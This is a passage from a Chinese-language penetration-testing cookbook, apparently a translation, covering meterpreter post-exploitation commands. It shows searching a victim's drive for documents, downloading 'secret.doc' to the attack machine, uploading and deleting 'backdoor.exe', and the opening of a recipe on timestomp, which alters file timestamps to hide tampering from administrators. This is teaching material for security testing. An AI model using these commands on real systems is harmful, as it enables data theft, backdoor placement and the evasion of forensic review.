 ```
meterpreter > search -f *.doc -d c:\ 
```

该命令将搜索`C`驱动器中具有`.doc`作为文件扩展名的所有文件。使用`f`参数指定要搜索的文件模式，`d`参数告诉要搜索哪个文件的目录。

所以一旦我们搜索到我们特定的文件，我们可以做的下一件事是将文件下载到目标机器上。让我们首先尝试将文件下载到我们的攻击系统：

```
meterpreter > download d:\secret.doc /root
[*] downloading: d:secret.doc -> /root/d:secret.doc
[*] downloaded : d:secret.doc -> /root/d:secret.doc 
```

通过使用`download`命令，我们可以成功地从目标机器下载任何文件到我们的机器。 “d：\secret.doc”文件在我们的攻击机器的`root`文件夹中下载。

同样，我们可以使用`upload`命令将任何文件发送到目标机器：

```
meterpreter > upload /root/backdoor.exe d:\
[*] uploading : /root/backdoor.exe -> d:\
[*] uploaded : /root/backdoor.exe -> d:\\backdoor.exe 
```

最后，我们可以使用`del`命令从目标机器中删除文件或目录。

```
meterpreter > del d:\backdoor.exe 
```

## 它是如何工作的...

Meterpreter 通过设置交互式命令提示符为我们提供对目标机器的完全访问。我们还可以放置一个 shell 会话以在默认的 Windows DOS 模式下工作，但它不会有太多功能。这是对 meterpreter 的一些重要文件系统命令的快速参考，可以帮助我们探索目标机器上的文件。还有更多的命令；建议您应该尝试它们，并找出可能存在的各种可能性。

在下一个步骤中，我们将看到一个非常有趣的 meterpreter 命令，称为`timestomp`，它可以用于修改目标机器上的文件属性。

# 使用 timestomp 更改文件属性

在上一个步骤中，我们了解了一些重要且有用的 meterpreter 文件系统命令，可用于在目标机器上执行各种任务。 Meterpreter 还包含另一个有趣的命令，称为`timestomp`。此命令用于更改文件的**修改-访问-创建-输入（MACE）**属性。属性值是文件发生任何 MACE 活动的日期和时间。使用`timestomp`命令，我们可以更改这些值。

## 准备就绪

在开始配方之前，可能会有一个问题在你的脑海中出现。为什么要更改 MACE 值？黑客通常使用更改 MACE 值的技术，以使目标用户感到文件已经存在系统很长时间，并且没有被触摸或修改。在可疑活动的情况下，管理员可能会检查最近修改的文件，以查找是否已修改或访问任何文件。因此，使用此技术，文件将不会出现在最近访问或修改项目的列表中。即使还有其他技术可以找出文件属性是否已被修改，这种技术仍然很有用。

让我们从目标机器中挑选一个文件并更改其 MACE 属性。以下屏幕截图显示了在使用“timestomp”之前文件的各种 MACE 值：
